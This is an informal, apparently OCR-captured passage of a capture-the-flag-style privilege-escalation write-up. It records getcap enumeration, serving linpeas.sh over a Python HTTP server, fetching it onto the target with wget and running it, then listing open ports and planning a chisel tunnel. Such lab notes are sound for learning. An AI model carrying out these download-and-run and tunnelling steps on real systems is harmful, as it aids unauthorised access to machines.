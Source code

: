 	/var/spool/rsyslog
	
	```
	
	I try on the dmesg, but I cannot do so much i have no permissions... now i watched the ps -aux and my i'm not soo smart yet.. maybe.. the cappabilities ?
	
	```
	sau@pc:~$ getcap -r / 2>/dev/null
	/snap/core20/1778/usr/bin/ping = cap_net_raw+ep
	/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
	/usr/bin/ping = cap_net_raw+ep
	/usr/bin/mtr-packet = cap_net_raw+ep
	/usr/bin/traceroute6.iputils = cap_net_raw+ep
	
	```
	
	I can find something with linpeas.sh
	
	I share it with python server from my pc to the target pc
	
	```
	python3 -m http.server 80
	```
	
	and I request the document from the target machine
	
	```
	wget 10.10.11.16:80/linpeas.sh
	```
	chmod +x to linpeas.sh
	
	and now it execute it with ./linpeas.sh
	
	this give me some info that I do not know
	
	
	Another open ports
	```
	tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                                      
	tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
	tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
	tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
	tcp6       0      0 :::22                   :::*                    LISTEN      -                   
	tcp6       0      0 :::50051                :::*                    LISTEN      -    
	```
	
	Some vulnerabilities
	
	![[Screenshot_2023-09-05_16_03_51.png]]
	
	This CVE's that I really don't know how to exploit , and i really don't know if they are yet, some of them seems to be related with the daemon
	
	If  I want to be able to know that info on the PC i need to use chisel. 
	
	First I need to download it and as i did it put a pyhton server and download the file on the target machine (on the folder /var/tmp)
	